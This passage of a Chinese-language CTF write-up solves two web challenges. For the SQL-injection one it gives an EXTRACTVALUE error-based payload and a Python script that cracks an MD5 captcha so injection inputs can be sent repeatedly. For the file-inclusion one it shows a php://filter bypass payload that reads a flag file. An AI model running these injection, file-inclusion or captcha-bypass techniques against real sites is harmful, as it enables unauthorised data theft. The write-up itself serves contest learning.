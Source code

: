 `1 AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT flag FROM hhhhctf)))`

### 从0开始之SQLI之2

让火焰净化一切...
http://45.32.25.65/nweb/sqli3/

#### 解题报告

蜜汁题目描述。这题居然改了表名，被坑了一把。套路和上一题完全一样（或者是我想了个更复杂的两题通用的注入方法？），就是改了个表名。这次的表名列名都是自己写了个脚本重新手注的，因为有前两题的经验，所以还是好猜的，脚本大致如下。

{% highlight python %}
from hashlib import md5
import requests
import re

char = ''.join(chr(x) for x in range(0x21, 0x7f))
url = 'http://45.32.25.65/nweb/sqli3/index.php'
code = re.compile(r'[0-9a-f]{4}')
resp = re.compile(r'<table>.*|it must return username')

def demd5(hash):
    for i in char:
        for j in char:
            for k in char:
                bt = i + j + k
                if md5(bt.encode()).hexdigest()[:4] == hash:
                    return bt

s = requests.Session()
key = demd5(code.findall(s.get(url).text)[0])
while True:
    html = s.post(url, {'id': input('post: '), 'code': key}).text
    print(resp.findall(html)[0], '\n')
    key = demd5(code.findall(html)[0])
{% endhighlight %}

后来搞出来表名是hhhhhhctf。最后稍微改了一下上一题的脚本，不给出来了，跑出来flag是`hctf{w0w_captch4_iz_Diao233}`。

#### 官方题解

被我不幸言中，我确实在第二题用了一个这两题通用的解法。官方题解和我的一样，是真·盲注。

### 从0开始LFI之2

flag还在../flag.php下，不信你还能拿到 (╯‵□′)╯︵┻━┻
http://119.29.138.57:12002/

#### 解题报告

首先乱测，测试了`php://filter/convert.base64-encode/resource=1.jpg`，发现能正常输出jpg，没有被encode成base64，然后对其中的字符随便改改随便改改，大概确认了是过滤了`php://filter.*/resource=`这一段，于是在后面重复了一次就拿到了flag，Payload为`http://119.29.138.57:12002/show.php?img=php://filter/resource=1.jpgphp://filter/resource=../flag.php`。拿到了flag为`hctf{1ntere5ting_PHP_Regu1ar_express1ons}`。
